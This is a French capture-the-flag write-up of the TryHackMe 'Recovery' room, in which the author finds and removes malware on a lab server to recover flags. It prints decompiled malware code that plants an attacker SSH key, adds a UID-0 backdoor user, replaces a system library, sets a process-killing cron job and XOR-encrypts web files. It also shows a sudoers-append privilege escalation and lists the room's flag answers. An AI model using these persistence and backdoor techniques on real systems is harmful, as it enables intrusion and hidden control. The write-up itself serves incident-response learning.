





# Recovery #

## Task 1 Help Alex! ##


```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.129.211 recovery.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 


tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A recovery.thm -p-
[sudo] Mot de passe de tim : 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 11:42 CEST
Nmap scan report for recovery.thm (10.10.129.211)
Host is up (0.033s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 55:17:c1:d4:97:ba:8d:82:b9:60:81:39:e4:aa:1e:e8 (RSA)
|   256 8d:f5:4b:ab:23:ed:a3:c0:e9:ca:90:e9:80:be:14:44 (ECDSA)
|_  256 3e:ae:91:86:81:12:04:e4:70:90:b1:40:ef:b7:f1:b6 (ED25519)
80/tcp    open  http    Apache httpd 2.4.43 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.43 (Unix)
|_http-title: Site doesn't have a title (text/html).
1337/tcp  open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Help Alex!
65499/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:b6:aa:93:8d:aa:b7:f3:af:71:9d:7f:c5:83:1d:63 (RSA)
|   256 64:98:14:38:ff:38:05:7e:25:ae:5d:33:2d:b6:78:f3 (ECDSA)
|_  256 ef:2e:60:3a:de:ea:2b:25:7d:26:da:b5:6b:5b:c4:3a (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/2%OT=22%CT=1%CU=41414%PV=Y%DS=2%DC=T%G=Y%TM=61309CAE
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=3F%W=FAF0%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

```

On remarque plusieurs services :
Le service SSH sur le port 22 et 65499. 
Le service HTTP sur le port 80 et 1337.   



Sur la page web sur le port 1337 on nous indique que à chaque fois que l'on enlève un morceau du malware appuyez sur refresh pour voir le flag.  

```bash

tim@kali:~/Bureau/tryhackme/write-up$ ssh alex@recovery.thm 
The authenticity of host 'recovery.thm (10.10.129.211)' can't be established.
ECDSA key fingerprint is SHA256:LB52ztZ+SDsYI2coLPSOhEKolWyBQpufnJE/ImwRIgs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'recovery.thm,10.10.129.211' (ECDSA) to the list of known hosts.
alex@recovery.thm's password: 
Linux recoveryserver 4.15.0-106-generic #107-Ubuntu SMP Thu Jun 4 11:27:52 UTC 2020 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
alex@recoveryserver:~$ YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
...
```

Quand on se connect on a le message YOU DIDN'T SAY THE MAGIC WORD! puis la connexion se ferme.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh alex@recovery.thm /bin/sh
alex@recovery.thm's password: 
id
uid=1000(alex) gid=1000(alex) groups=1000(alex)

tail -1 .bashrc
while :; do echo "YOU DIDN'T SAY THE MAGIC WORD!"; done &
```

On se connect en faisant exécuter un shell.   
On remarque que la dernière ligne de .bashrc provoque la phrase YOU DIDN'T SAY THE MAGIC WORD!.   

**Flag 0**

```bash
sed -i '$d' .bashrc
```

On supprime la dernière ligne du fichier .bashrc.   



On regarde la page web. 
On a notre flag.  

La réponse est : Flag 0: THM{d8b5c89061ed767547a782e0f9b0b0fe}   


**Flag 1**

On a remarque que le shell de déconnecte au bout d'un certain temps.

```bash
cd /etc/cron.d/	
ls -al
total 16
drwxr-xr-x 1 root root 4096 Jun 17  2020 .
drwxr-xr-x 1 root root 4096 Jun 17  2020 ..
-rw-r--r-- 1 root root  102 Oct 11  2019 .placeholder
-rwxr-xr-x 1 root root   61 Jun 17  2020 evil
```

cat evil

* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog

cat /opt/brilliant_script.sh
#!/bin/sh

for i in $(ps aux | grep bash | grep -v grep | awk '{print $2}'); do kill $i; done;
```

On remarque que evil exécute brilliant_script.sh.   
Le script brilliant cherche le processus bash puis le tue, c'est pour ca que le shell se ferme.  

```bash
echo "" > /opt/brilliant_script.sh
```

On supprime de contenue de brillant_script.sh  

 

On rafraîchit la page est on a notre flag.   

La réponse est : Flag 1: THM{4c3e355694574cb182ca3057a685509d  

**Flag 2**

```bash
alex@recoveryserver:~$ cat /etc/cron.d/evil 

* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog

```
On voit que le script brilliant_script.sh est exécuter avec les droits root.   

```bash
alex@recoveryserver:~$ echo 'echo "alex ALL=(ALL:ALL) ALL" >> /etc/sudoers' >> /opt/brilliant_script.sh 

alex@recoveryserver:~$ sudo -l
[sudo] password for alex: 
Matching Defaults entries for alex on recoveryserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alex may run the following commands on recoveryserver:
    (ALL : ALL) ALL
```

On dit au script de modifier le fichier sudoers par avoir les droit roots.   
Avec la commande sudo -l on vérifie si on bien les droits.   

```bash
alex@recoveryserver:~$ ls
fixutil
---------------------------
tim@kali:~/Bureau/tryhackme/write-up$ scp alex@recovery.thm:fixutil ./
alex@recovery.thm's password: 
fixutil                 
```

On récupère le fichier pour analyse.   

Ou ouvre le fichier avec ghidra.  
Dans la fonction main on a :

```cpp
undefined8 main(void)

{
  FILE *__s;
  
  __s = fopen("/home/alex/.bashrc","a");
  fwrite("\n\nwhile :; do echo \"YOU DIDN\'T SAY THE MAGIC WORD!\"; done &\n",1,0x3c,__s);
  fclose(__s);
  system("/bin/cp /lib/x86_64-linux-gnu/liblogging.so /tmp/logging.so");
  __s = fopen("/lib/x86_64-linux-gnu/liblogging.so","wb");
  fwrite(&bin2c_liblogging_so,0x5a88,1,__s);
  fclose(__s);
  system("echo pwned | /bin/admin > /dev/null");
  return 0;
```

Le fichier ouvre .bashrc pour écrire la chaîne qui dit : YOU DIDN'T SAY MAGIC WORD!.  
Le fichier liblogging.so est copié dans le répertoire tmp.  
Puis on fait des modification dans le fichier liblogging.so.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ scp alex@recovery.thm:/lib/x86_64-linux-gnu/liblogging.so ./
alex@recovery.thm's password: 
liblogging.so                                                                                                                                                                                               100%   23KB 331.9KB/s   00:00
```

On récupère le fichier liblogging.so pour analyse.   

```cpp
void LogIncorrectAttempt(char *attempt)

{
  time_t tVar1;
  FILE *__stream;
  char *ssh_key;
  FILE *authorized_keys;
  FILE *script_f;
  FILE *cron_f;
  
  system("/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so");
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  __stream = fopen("/root/.ssh/authorized_keys","w");
  fprintf(__stream,"%s\n",
                    
          "ssh-rsaAAAAB3NzaC1yc2EAAAADAQABAAABgQC4U9gOtekRWtwKBl3+ysB5WfybPSi/rpvDDfvRNZ+BL81mQYTMPbY3bD6u2eYYXfWMK6k3XsILBizVqCqQVNZeyUj5x2FFEZ0R+HmxXQkBi+yNMYoJYgHQyngIezdBsparH62RUTfmUbwGlT0kxqnnZQsJbXnUCspo0zOhl8tK4qr8uy2PAG7QbqzL/epfRPjBn4f3CWV+EwkkkE9XLpJ+SHWPl8JSdiD/gTIMd0P9TD1Ig5w6F0f4yeGxIVIjxrA4MCHMmo1U9vsIkThfLq80tWp9VzwHjaev9jnTFg+bZnTxIoT4+Q2gLV124qdqzw54x9AmYfoOfH9tBwr0+pJNWi1CtGo1YUaHeQsA8fska7fHeS6czjVr6Y76QiWqq44q/BzdQ9klTEkNSs+2sQs9csUybWsXumipViSUla63cLnkfFr3D9nzDbFHek6OEk+ZLyp8YEaghHMfB6IFhu09w5cPZApTngxyzJU7CgwiccZtXURnBmKV72rFO6ISrus= root@recovery"
         );
  fclose(__stream);
  system("/usr/sbin/useradd --non-unique -u 0 -g 0 security 2>/dev/null");
  system(
        "/bin/echo\'security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3VrUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/\' | /usr/sbin/chpasswd -e"
        );
  XOREncryptWebFiles();
  __stream = fopen("/opt/brilliant_script.sh","w");
  fwrite(
         "#!/bin/sh\n\nfor i in $(ps aux | grep bash | grep -v grep | awk \'{print $2}\'); do kill$i; done;\n"
         ,1,0x5f,__stream);
  fclose(__stream);
  __stream = fopen("/etc/cron.d/evil","w");
  fwrite("\n* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog\n\n",1,0x3d,__stream);
  fclose(__stream);
  chmod("/opt/brilliant_script.sh",0x1ff);
  chmod("/etc/cron.d/evil",0x1ed);
  return;
}
```

Dans la fonction LogincorrectAttempt on voit le code ci-dessus.  

```cpp
system("/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so");
```

Le fichier qui était sauvegardé dans tmp est déplacé dans /lib/x86_64-linux/oldlibloggin.so.

```bash
alex@recoveryserver:~$ sudo mv /lib/x86_64-linux-gnu/oldliblogging.so /lib/x86_64-linux-gnu/liblogging.so 
[sudo] password for alex: 
```

On remet le bon fichier à la bonne place.    

 

On obtient le bon flag qui est : Flag 2: THM{72f8fe5fd968b5817f67acecdc701e52}   

**Flag 3**

```cpp
 __stream = fopen("/root/.ssh/authorized_keys","w");
  fprintf(__stream,"%s\n",
                    
          "ssh-rsaAAAAB3NzaC1yc2EAAAADAQABAAABgQC4U9gOtekRWtwKBl3+ysB5WfybPSi/rpvDDfvRNZ+BL81mQYTMPbY3bD6u2eYYXfWMK6k3XsILBizVqCqQVNZeyUj5x2FFEZ0R+HmxXQkBi+yNMYoJYgHQyngIezdBsparH62RUTfmUbwGlT0kxqnnZQsJbXnUCspo0zOhl8tK4qr8uy2PAG7QbqzL/epfRPjBn4f3CWV+EwkkkE9XLpJ+SHWPl8JSdiD/gTIMd0P9TD1Ig5w6F0f4yeGxIVIjxrA4MCHMmo1U9vsIkThfLq80tWp9VzwHjaev9jnTFg+bZnTxIoT4+Q2gLV124qdqzw54x9AmYfoOfH9tBwr0+pJNWi1CtGo1YUaHeQsA8fska7fHeS6czjVr6Y76QiWqq44q/BzdQ9klTEkNSs+2sQs9csUybWsXumipViSUla63cLnkfFr3D9nzDbFHek6OEk+ZLyp8YEaghHMfB6IFhu09w5cPZApTngxyzJU7CgwiccZtXURnBmKV72rFO6ISrus= root@recovery"
         );
  fclose(__stream);
```

On voit le code ajoute un clef dans le fichier authorized_keys.

```bash
alex@recoveryserver:~$ sudo rm /root/.ssh/authorized_keys
```

On efface le fichier authorized_keys qui contient la clef de l'attaquant.   

On obtient un autre flag.  

Réponse : THM{70f7de17bb4e08686977a061205f3bf0}     

**Flag 4**

```cpp
system("/usr/sbin/useradd --non-unique -u 0 -g 0 security 2>/dev/null");
  system(
        "/bin/echo\'security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3VrUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/\' | /usr/sbin/chpasswd -e"
        );
```

Un utilisateur security est créé.   

```bash
alex@recoveryserver:~$ cat /etc/passwd | grep -n security
27:security:x:0:0::/home/security:/bin/sh

alex@recoveryserver:~$ sudo sed -i '27d' /etc/passwd

alex@recoveryserver:~$ sudo cat /etc/shadow | grep -n security

27:security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3VrUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/:18430:0:99999:7:::
alex@recoveryserver:~$ sudo sed -i '27d' /etc/shadow

```

On supprime l'utilisateur security dans les fichiers passwd et shadow.    

On obtient un nouveau flag qui est : THM{b0757f8fb8fe8dac584e80c6ac151d7d}

**Flag 5**

```cpp
XOREncryptWebFiles();
```

On trouve une fonction XOREncryptWebFiles, regardons le qu'elle contient.   

```cpp
void XOREncryptWebFiles(void)

{
  int iVar1;
  char *str;
  FILE *__stream;
  char **webfiles;
  long lVar2;
  stat *psVar3;
  long in_FS_OFFSET;
  byte bVar4;
  int i;
  int amnt_webfiles;
  char *encryption_key;
  FILE *encryption_file;
  char **webfile_names;
  stat stat_res;
  long local_10;
  
  bVar4 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  str = (char *)malloc(0x11);
  if (str == (char *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  rand_string(str,0x10);
  lVar2 = 0x12;
  psVar3 = &stat_res;
  while (lVar2 != 0) {
    lVar2 = lVar2 + -1;
    psVar3->st_dev = 0;
    psVar3 = (stat *)((long)psVar3 + (ulong)bVar4 * -0x10 + 8);
  }
  iVar1 = stat(encryption_key_dir,(stat *)&stat_res);
  if (iVar1 == -1) {
    mkdir(encryption_key_dir,0x1c0);
  }
  __stream = fopen("/opt/.fixutil/backup.txt","a");
  fprintf(__stream,"%s\n",str);
  fclose(__stream);
  webfiles = (char **)malloc(8);
  if (webfiles == (char **)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = GetWebFiles(webfiles,8);
  i = 0;
  while (i < iVar1) {
    XORFile(webfiles[i],str);
    free(webfiles[i]);
    i = i + 1;
  }
  free(webfiles);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

```cpp
rand_string(str,0x10);
__stream = fopen("/opt/.fixutil/backup.txt","a");
  fprintf(__stream,"%s\n",str);
  fclose(__stream);
```

On voit qu'une chaîne de 15 caractères aléatoire est générés.  

```cpp
iVar1 = GetWebFiles(webfiles,8);
```

Nous avons la fonction GetWebFiles qui récupère des donnés.


```cpp
XORFile(webfiles[i],str);
```

Nous avons la fonction XORFile qui chiffre les donnés.   

```cpp
int GetWebFiles(char **webfiles,int max_amnt_webfiles)

{
  int iVar1;
  DIR *__dirp;
  size_t __n;
  size_t sVar2;
  char *__dest;
  dirent *pdVar3;
  int i;
  DIR *d;
  dirent *dir;
  char *webfile;
  
  i = 0;
  __dirp = opendir(web_location);
  if (__dirp != (DIR *)0x0) {
    do {
      do {
        pdVar3 = readdir(__dirp);
        if (pdVar3 == (dirent *)0x0) {
          closedir(__dirp);
          return i;
        }
        iVar1 = strcmp(pdVar3->d_name,".");
      } while ((iVar1 == 0) || (iVar1 = strcmp(pdVar3->d_name,".."), iVar1 == 0));
      __n = strlen(web_location);
      sVar2 = strlen(pdVar3->d_name);
      __dest = (char *)malloc(sVar2 + __n + 1);
      if (__dest == (char *)0x0) {
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      strcpy(__dest,web_location);
      __n = strlen(pdVar3->d_name);
      strncat(__dest,pdVar3->d_name,__n);
      webfiles[i] = __dest;
      i = i + 1;
    } while (i < max_amnt_webfiles);
    closedir(__dirp);
  }
  return i;
}
```



On retrouve l'endroit où le fichiers seront chiffrés.   
Le chemin est : /usr/local/apache2/htdocs/

```cpp
void XORFile(char *f_path,char *encryption_key)

{
  int iVar1;
  FILE *__stream;
  long lVar2;
  void *__ptr;
  size_t sVar3;
  int i;
  int size;
  int index_of_encryption_key;
  FILE *webfile_r;
  char *f_contents;
  FILE *webfile_w;
  
  __stream = fopen(f_path,"rb");
  fseek(__stream,0,2);
  lVar2 = ftell(__stream);
  iVar1 = (int)lVar2;
  fseek(__stream,0,0);
  __ptr = malloc((long)iVar1);
  fread(__ptr,1,(long)iVar1,__stream);
  fclose(__stream);
  i = 0;
  while (i < iVar1) {
    sVar3 = strlen(encryption_key);
    *(byte *)((long)__ptr + (long)i) =
         *(byte *)((long)__ptr + (long)i) ^ encryption_key[(int)((ulong)(long)i % sVar3)];
    i = i + 1;
  }
  __stream = fopen(f_path,"wb");
  fwrite(__ptr,1,(long)iVar1,__stream);
  fclose(__stream);
  return;
}
```

Regardons la fonction : XORFile.   

```cpp
 __stream = fopen(f_path,"rb");

```

Il ouvre le fichier situé dans le répertoire : /usr/local/apache2/htdocs/

```cpp
while (i < iVar1) {
    sVar3 = strlen(encryption_key);
    *(byte *)((long)__ptr + (long)i) =
         *(byte *)((long)__ptr + (long)i) ^ encryption_key[(int)((ulong)(long)i % sVar3)];
    i = i + 1;
  }

```

Cette fonction chiffre les fichiers avec un XOR avec la clef qui sont les caractères aléatoirs stockés dans backup.txt.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/file$ scp alex@recovery.thm:/usr/local/apache2/htdocs/* .
alex@recovery.thm's password: 
index.html                                                                                                                                                                                                  100%  997    28.5KB/s   00:00    
reallyimportant.txt                                                                                                                                                                                         100%  109     3.2KB/s   00:00    
todo.html                  
```

On récupère le fichiers chiffrés.   

```bash 
alex@recoveryserver:~$ sudo cat /opt/.fixutil/backup.txt
[sudo] password for alex: 
AdsipPewFlfkmll
```

On récupère la clef.   

```python
tim@kali:~/Bureau/tryhackme/write-up/file$ cat decode.py 

def decode(name):
    content = ""
    key=b"AdsipPewFlfkmll"
    fil=name
    f=open(fil,"r+b")
    contents=f.read()
    for i in range(0,len(contents)):
        content += chr(contents[i]^key[i%len(key)])
    
    f.seek(0)
    f.write(content.encode('ascii'))
    print(name + " OK")
    f.close()


nameFile = ["index.html", "reallyimportant.txt", "todo.html"]

for i in nameFile:
    decode(i)
```

On écrit un script python qui décode les fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/file$ python decode.py 
index.html OK
reallyimportant.txt OK
todo.html OK
```

On décode les fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/file$ scp * alex@recovery.thm:/tmp
alex@recovery.thm's password: 
decode.py                                                                                                                                                                                                   100%  401    11.3KB/s   00:00    
index.html                                                                                                                                                                                                  100%  997    28.8KB/s   00:00    
reallyimportant.txt                                                                                                                                                                                         100%  109     3.2KB/s   00:00    
todo.html                                                                                                                                                                                                   100%   85     2.5KB/s   00:00   

alex@recoveryserver:/tmp$ sudo cp * /usr/local/apache2/htdocs/
[sudo] password for alex: 
```

On copie les fichiers décodés dans le répértoire htdocs.  
Et on obtient le dernier flag.

La réponse est : Flag 5: THM{088a36245afc7cb935f19f030c4c28b2}    

